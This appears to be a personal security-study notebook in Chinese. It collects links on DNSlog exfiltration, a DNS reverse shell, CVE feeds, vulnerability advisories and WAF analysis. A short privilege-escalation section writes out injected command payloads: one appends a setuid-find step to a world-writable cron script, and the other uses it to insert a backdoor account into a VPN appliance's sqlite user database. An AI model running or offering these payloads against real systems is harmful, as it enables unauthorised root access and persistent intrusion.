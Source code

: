 [dnslog](https://wh0ale.github.io/2019/01/13/2019-1-13-dnslog/)
http://ceye.io/profile

[DNSlog注入学习](https://www.cnblogs.com/Xy--1/p/12896599.html)
[渗透测试小技巧之DNSlog](http://byd.dropsec.xyz/2016/12/04/dnslog%E5%88%A9%E7%94%A8/)


[教你学木马攻防 | 隧道木马 | DNS反弹shell| 好像不是指这种木马](https://cloud.tencent.com/developer/article/1419096)

提权： crontab 脚本如果是 777
-h|echo -e "cp /usr/bin/find /tmp/findnchmod u+s /tmp/find" >> /etc/cron.min/processmonitor.sh
在sqlite 中加个账号
-h|/tmp/find /sftmpfs/etc/htdocs/com/swfupload/1.txt -exec sqlite3 /sftmpfs/etc/db/sqlite3/sslvpn.sq3 "insert into svpnuser(name,passwd) values ('test', 'xxx');" ;|tee /sftmpfs/etc/htdocs/com/swfupload/1.txt


这些是更新 CVE 比较快的github
https://github.com/lyy289065406/threat-broadcast
https://github.com/Skactor/threat-intelligence
https://github.com/1yuhao/zsGitbook

https://github.com/vmcommunity/cvelist
https://github.com/CVEProject/cvelist
https://github.com/CVEProject/automation-working-group

CVE-2020-12321：英特尔无线蓝牙产品特权升级漏洞通告|不是windows漏洞，华为就是用intel wireless bluetooth
https://www.anquanke.com/post/id/222203

企业安全建设之生产环境安全管控 会员
https://www.freebuf.com/articles/es/250976.html

如何使用Arthas进行JVM取证
https://www.freebuf.com/articles/system/252948.html

2020-11 补丁日：微软多个产品高危漏洞安全风险通告
https://www.anquanke.com/post/id/222194

CVE-2020-17051：Windows 网络文件系统远程代码执行漏洞
https://www.anquanke.com/post/id/222199

mysql 多个漏洞，主要是拒绝服务，需要更新组件版本
http://www.nsfocus.net/index.php?os=&type_id=&keyword=mysql&act=sec_bug&submit=+

http://www.nsfocus.net/vulndb/50446
Oracle MySQL Server Server: Optimizer拒绝服务漏洞（CVE-2020-14769）
http://www.nsfocus.net/vulndb/50450

https://github.com/c9fe/22120
把浏览网页都弄到本地|试了，有点问题

线性代数+python
https://pabloinsente.github.io/intro-linear-algebra

## 20201111

WAF代码剖析之init*阶段
https://www.freebuf.com/articles/web/253415.html

一次有趣的挖掘验证码漏洞经历
https://www.freebuf.com/vuls/253833.html

Weblogic未授权访问及命令执行分析复现（CVE-2020-14882/14883）
https://www.anquanke.com/post/id/222018

